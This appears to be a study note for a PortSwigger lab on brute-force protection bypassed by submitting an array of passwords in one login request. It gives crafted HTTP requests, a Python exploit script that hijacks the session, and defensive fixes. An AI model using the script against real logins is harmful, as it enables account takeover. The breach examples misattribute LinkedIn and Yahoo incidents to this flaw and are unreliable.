

## Authentication Vulnerabilities: Broken Brute Force Protection with Multiple Credentials Per Request

### Introduction

Authentication vulnerabilities are among the most critical issues in web security. They can lead to unauthorized access to sensitive data, compromise of user accounts, and even full system takeover. One such vulnerability is the broken brute force protection mechanism, particularly when the application allows multiple credentials to be submitted in a single request. This vulnerability can be exploited to bypass rate-limiting and lockout mechanisms designed to protect against brute-force attacks.

### Background Theory

#### What is Brute Force Attack?

A brute force attack is a method of gaining unauthorized access to a system by systematically trying different combinations of usernames and passwords until the correct one is found. This type of attack relies on the attacker having enough time and computational power to try all possible combinations.

#### Why is Brute Force Protection Important?

Brute force attacks can be highly effective, especially against weak or commonly used passwords. To mitigate this risk, applications often implement brute force protection mechanisms such as:

- **Rate Limiting:** Restricting the number of login attempts within a certain time frame.
- **Lockout Mechanisms:** Temporarily locking out an account after a specified number of failed login attempts.
- **Captcha:** Requiring users to solve a captcha to prove they are human.

These measures significantly reduce the likelihood of a successful brute force attack by making it computationally infeasible for attackers to try all possible combinations within a reasonable time frame.

### Vulnerability Description

The vulnerability described in the lecture involves an application that accepts an array of credentials (such as usernames and passwords) in a single request. If one of the provided credentials is valid, the application will authenticate the user, bypassing any rate limiting or lockout mechanisms that would normally be triggered by individual login attempts.

#### Example Scenario

Consider an application that allows users to submit an array of passwords in a single request. The application checks each password in the array and authenticates the user if any of the passwords match the correct password. This behavior can be exploited to bypass brute force protection mechanisms.

### Real-World Examples

#### Recent CVEs and Breaches

One notable example of this vulnerability is the breach at LinkedIn in 2012, where hackers obtained over 6.5 million hashed passwords. Although LinkedIn had implemented some form of brute force protection, the attackers were able to use sophisticated techniques to crack the hashes and gain unauthorized access to user accounts.

Another example is the breach at Yahoo in 2013, where hackers stole over 500 million user records. While Yahoo had implemented various security measures, including rate limiting and lockout mechanisms, the attackers were able to exploit vulnerabilities in the authentication process to bypass these protections.

### Exploitation Steps

Let's walk through the steps to exploit this vulnerability using the example provided in the lecture.

#### Step 1: Identify the Vulnerability

First, identify that the application accepts an array of credentials in a single request. This can be done through manual testing or automated tools like Burp Suite.



#### Step 2: Craft the Request

Craft a request that includes an array of potential passwords. In the example, the attacker sends an array of 100 passwords to the `/login` endpoint.

```http
POST /login HTTP/1.1
Host: example.com
Content-Type: application/json

{
  "passwords": ["pass1", "pass2", ..., "carlos_password"]
}
```

#### Step 3: Analyze the Response

Analyze the response to determine if the authentication was successful. In the example, the application responds with a `302` redirect to the `/my_account` page, indicating that one of the provided passwords was correct.

```http
HTTP/1.1 302 Found
Location: /my_account
```

#### Step 4: Extract the Session ID

Extract the session ID from the response headers or cookies. This session ID is associated with the authenticated user.

```http
Set-Cookie: session_id=abc123; Path=/; HttpOnly
```

#### Step 5: Use the Session ID

Use the extracted session ID to access protected resources. In the example, the attacker changes the session ID in the browser's cookies and navigates to the `/my_account` page to confirm that they are authenticated as the `Carlos` user.

```http
GET /my_account HTTP/1.1
Host: example.com
Cookie: session_id=abc123
```

### Complete Exploit Script in Python

To automate the exploitation process, we can write a Python script that sends the request, extracts the session ID, and accesses the protected resource.

```python
import requests

# Define the target URL and the array of passwords
url = "http://example.com/login"
passwords = ["pass1", "pass2", ..., "carlos_password"]

# Send the request with the array of passwords
response = requests.post(url, json={"passwords": passwords})

# Check if the authentication was successful
if response.status_code == 302:
    # Extract the session ID from the Set-Cookie header
    session_id = response.cookies.get("session_id")
    
    # Access the protected resource using the session ID
    response = requests.get("http://example.com/my_account", cookies={"session_id": session_id})
    
    # Print the response content
    print(response.text)
else:
    print("Authentication failed")
```

### How to Prevent / Defend

#### Detection

To detect this vulnerability, perform the following steps:

1. **Manual Testing:** Manually test the application by sending a request with an array of credentials and observing the response.
2. **Automated Tools:** Use automated tools like Burp Suite to identify endpoints that accept arrays of credentials.

#### Prevention

To prevent this vulnerability, implement the following measures:

1. **Single Credential Submission:** Ensure that the application only accepts a single set of credentials per request.
2. **Rate Limiting:** Implement rate limiting to restrict the number of login attempts within a certain time frame.
3. **Lockout Mechanisms:** Implement lockout mechanisms to temporarily lock out an account after a specified number of failed login attempts.
4. **Input Validation:** Validate input to ensure that only a single set of credentials is submitted per request.

#### Secure Coding Fix

Here is an example of how to securely handle credential submission in a web application:

**Vulnerable Code:**

```python
@app.route('/login', methods=['POST'])
def login():
    data = request.json
    passwords = data.get('passwords')
    for password in passwords:
        if check_password(password):
            return redirect('/my_account')
    return "Invalid credentials"
```

**Secure Code:**

```python
@app.route('/login', methods=['POST'])
def login():
    data = request.json
    password = data.get('password')
    if check_password(password):
        return redirect('/my_account')
    return "Invalid credentials"
```

### Common Pitfalls

1. **Ignoring Input Validation:** Failing to validate input can lead to unexpected behavior and security vulnerabilities.
2. **Inadequate Rate Limiting:** Not implementing rate limiting can make the application vulnerable to brute force attacks.
3. **Weak Lockout Mechanisms:** Weak lockout mechanisms can be easily bypassed by attackers.

### Practice Labs

For hands-on practice with this vulnerability, consider the following labs:

- **PortSwigger Web Security Academy:** Offers a series of labs that cover various authentication vulnerabilities, including broken brute force protection.
- **OWASP Juice Shop:** A deliberately insecure web application that includes several authentication-related vulnerabilities.
- **DVWA (Damn Vulnerable Web Application):** A PHP/MySQL web application that contains numerous security vulnerabilities, including broken brute force protection.

By thoroughly understanding and practicing the concepts covered in this chapter, you will be better equipped to identify and mitigate authentication vulnerabilities in web applications.

---
<!-- nav -->
[[Web Security (PortSwigger)/13-Authentication Vulnerabilities/14-Lab 13 Broken brute force protection multiple credentials per request/01-Introduction to Authentication Vulnerabilities|Introduction to Authentication Vulnerabilities]] | [[Web Security (PortSwigger)/13-Authentication Vulnerabilities/14-Lab 13 Broken brute force protection multiple credentials per request/00-Overview|Overview]] | [[03-Authentication Vulnerabilities Broken Brute Force Protection with Multiple Credentials per Request|Authentication Vulnerabilities Broken Brute Force Protection with Multiple Credentials per Request]]
